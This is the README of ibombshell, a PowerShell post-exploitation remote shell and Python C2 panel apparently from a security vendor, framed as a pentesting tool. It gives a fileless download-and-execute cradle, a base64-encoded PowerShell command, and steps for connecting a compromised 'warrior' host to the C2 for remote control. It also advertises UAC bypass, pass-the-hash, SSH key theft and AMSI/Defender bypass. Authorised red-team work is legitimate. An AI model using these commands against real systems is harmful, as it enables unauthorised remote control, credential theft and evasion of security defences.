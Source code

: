 ![Supported Python versions](https://img.shields.io/badge/python-3.6-blue.svg?style=flat-square)
![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **ibombshell - Dynamic Remote Shell**

```
      ,--.!,    _ ____                  __   _____ __         ____
   __/   -*-   (_) __ )____  ____ ___  / /_ / ___// /_  ___  / / /
 ,d08b.  '|`  / / __  / __ \/ __ `__ \/ __ \\__ \/ __ \/ _ \/ / /
 0088MM      / / /_/ / /_/ / / / / / / /_/ /__/ / / / /  __/ / /
 `9MMP'     /_/_____/\____/_/ /_/ /_/_.___/____/_/ /_/\___/_/_/

 [+] Starting the console...
 [*] Console ready!
```

**ibombshell** is a tool written in Powershell that allows you to have a prompt at any time with post-exploitation functionalities (and in some cases exploitation). It is a shell that is downloaded directly to memory providing access to a large number of pentesting features. These functionalities can be downloaded directly to memory, in the form of a Powershell function. This form of execution is known as _everywhere_.

In addition, _ibombshell_ provides a second execution mode called _Silently_, so the pentester can execute an instance of ibombshell (called _warrior_). The compromised computer will be connected to a C2 panel through HTTP. Therefore, it will be possible to control the warrior and be able to load functions in memory that help the pentester. This is happening whithin the post-exploitation phase.

# Prerequisities

To run _ibombshell everywhere_ it is mandatory to have PowerShell 3.0 or higher. For operating systems other than Windows you can read more about this in the [PowerShell GitHub](https://github.com/PowerShell/PowerShell) - _PowerShell for every system!_.

To run the _ibombshell silently mode_ you need python 3.6 and some python libraries. You can install this with:

```[python]
cd ibombshell\ c2/
pip install -r requirements.txt
```

**Note**: ibombshell C2 works in **python 3.X**. Make sure you run a pip relative to this version.

# Usage

ibombshell has two execution modes:

## ibombshell everywhere

To load ibombshell simply run on PowerShell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/Telefonica/ibombshell/master/console’)
```

Now you can run the downloaded ibombshell console running:

```[powershell]
console
```

### ibombshell everywhere in isolated environments

If you need to use ibombshell in isolated environments, you must prepare your computer first in a networked environment. Load all the functions you will need, and use savefunctions to save them in the Windows registry.

Now you can use this base 64 code to get ibombshell:

```[powershell]
powershell.exe -E "JABwAGEAdABoACAAPQAgACcAaABrAGMAdQA6AFwAcwBvAGYAdAB3AGEAcgBlAFwAYwBsAGEAcwBzAGUAcwBcAGkAYgBvAG0AYgBzAGgAZQBsAGwAXABjAG8AbgBzAG8AbABlACcAOwAgAHQAcgB5ACAAewAJAGkAZgAoAHQAZQ
BzAHQALQBwAGEAdABoACAAJABwAGEAdABoACkAIAB7ACAAJABjAG8AbgBzAG8AbABlACAAPQAgACgARwBlAHQALQBDAGgAaQBsAGQASQB0AGUAbQAgACQAcABhAHQAaAApAC4ATgBhAG0AZQA7ACAAYwBkACAAaABrAGMAdQA6
ADsAIAAkAG4AYQBtAGUAIAA9ACAAJABjAG8AbgBzAG8AbABlAC4AcwBwAGwAaQB0ACgAIgBcACIAKQBbAC0AMQBdADsAIAAkAGMAbwBkAGUAIAA9ACAAKAAoAEcAZQB0AC0ASQB0AGUAbQAgAC0AUABhAHQAaAAgACIAJABjAG
8AbgBzAG8AbABlACIAIAB8ACAAUwBlAGwAZQBjAHQALQBPAGIAagBlAGMAdAAgAC0ARQB4AHAAYQBuAGQAUAByAG8AcABlAHIAdAB5ACAAUAByAG8AcABlAHIAdAB5ACkAIAB8ACAARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUA
YwB0ACAAewBOAGUAdwAtAE8AYgBqAGUAYwB0ACAAcABzAG8AYgBqAGUAYwB0ACAALQBQAHIAbwBwAGUAcgB0AHkAIABAAHsAIgBwAHIAbwBwAGUAcgB0AHkAIgA9ACQAXwA7ACAAIgBWAGEAbAB1AGUAIgAgAD0AIAAoAEcAZQ
B0AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAtAFAAYQB0AGgAIAAiACQAYwBvAG4AcwBvAGwAZQAiACAALQBOAGEAbQBlACAAJABfACkALgAkAF8AfQB9ACkALgBWAGEAbAB1AGUAOwAgACQAYwBvAGQAZQAgAHwAIABv
AHUAdAAtAHMAdAByAGkAbgBnACAAfAAgAGkAZQB4ADsAIABjADoAOwAgAGMAbwBuAHMAbwBsAGUAOwB9AH0AYwBhAHQAYwBoAHsAdwByAGkAdABlAC0AaABvAHMAdAAgACQARQByAHIAbwByAFsAMABdAH0A"
```

## ibombshell silently mode

This version allows you to run the ibombshell console and remotely control it from the C2 panel created in python. To run this version, first you must launch the console process in powershell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/Telefonica/ibombshell/master/console’)
```

On ibombshell C2 path, prepare the C2:

```[python]
python3 ibombshell.py
```

And create the listener where the warriors will connected:

```[ibombshell]
iBombShell> load modules/listener.py
[+] Loading module...
[+] Module loaded!
iBombShell[modules/listener.py]> run
```

The default listener port is 8080. Finally you can launch the console in silently mode on the host to get remote control:

```[powershell]
console -Silently -uriConsole http://[ip or domain]:[port]
```

# ibombshell C2 scheme

The basic operation of the ibombshell control panel follows the following scheme:

```[ascii]
        ibombshell                 C2
            |                      |
            |    newibombshell     |
            +--------------------->| --+ register
            |                      |<--+ from IP
            |    get functions     |
            |   and instructions   |
            +--------------------->|
            |                      |
            |    send functions    |
            |   and instructions   |
execute +-- |<---------------------+
        +-->|                      |
            |       results        |
            +--------------------->|
            |                      |
```

# Docker

We have created a docker container with everything you need to make it works. Run this command from Dockerfile location.

```[bash]
sudo docker build -t "ibombshell" .
sudo docker run -it ibombshell
```

# Example videos

Some example videos...

### _iBombShell: PoC Warrior + Bypass UAC + Pass the hash_

[![iBombShell: PoC Warrior + Bypass UAC + Pass the hash](https://img.youtube.com/vi/v4c8MsOPTyA/0.jpg)](http://www.youtube.com/watch?v=v4c8MsOPTyA)

### _iBombShell: macOS_

[![iBombShell: PoC de uso desde macOS](https://img.youtube.com/vi/DQlWGPS1CB4/0.jpg)](http://www.youtube.com/watch?v=DQlWGPS1CB4)

### _ibombshell: Extracting Private SSH Keys on Windows 10_

[![ibombshell: Módulo para extracción de claves privadas SSH en Windows 10](https://img.youtube.com/vi/v7iXEg9cTNY/0.jpg)](http://www.youtube.com/watch?v=v7iXEg9cTNY)

### _iBombShell: PoC savefunctions_

[![iBombShell: PoC savefunctions](https://img.youtube.com/vi/QM0HufCYOEk/0.jpg)](https://www.youtube.com/watch?v=QM0HufCYOEk)

### _ibombshell - Silently bypass UAC Environment Injection_

[![ibombshell - Modo silencioso para el bypass UAC Environment Injection](https://img.youtube.com/vi/XrWM2gcXo3w/0.jpg)](https://www.youtube.com/watch?v=XrWM2gcXo3w)

### _iBombShell - Mocking Trusted Directory_

[![iBombShell - Mocking Trusted Directory](https://img.youtube.com/vi/6iCFS4FkedM/0.jpg)](https://www.youtube.com/watch?v=6iCFS4FkedM)

### _iBombShell - DLL generation_

[![iBombShell - DLL Generation](https://img.youtube.com/vi/I03klvk-DXo/0.jpg)](https://www.youtube.com/watch?v=I03klvk-DXo)

### _iBombShell - AMSI & Windows Defender Bypass_

[![iBombShell - AMSI & Windows Defender Bypass](https://img.youtube.com/vi/wCBLG3CfWMY/0.jpg)](https://www.youtube.com/watch?v=wCBLG3CfWMY)

# License

This project is licensed under the GNU General Public License - see the LICENSE file for details

# Contact

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

This software doesn't have a QA Process. This software is a Proof of Concept.

If you have any problems, you can contact:

<pablo@11paths.com> - _Ideas Locas CDO - Telefónica_

<alvaro.nunezromero@11paths.com> - _Laboratorio Innovación - ElevenPaths_

<josue.encinargarcia@telefonica.com> - _Ideas Locas CDO - Telefónica_

For more information please visit [https://www.elevenpaths.com](https://www.elevenpaths.com).
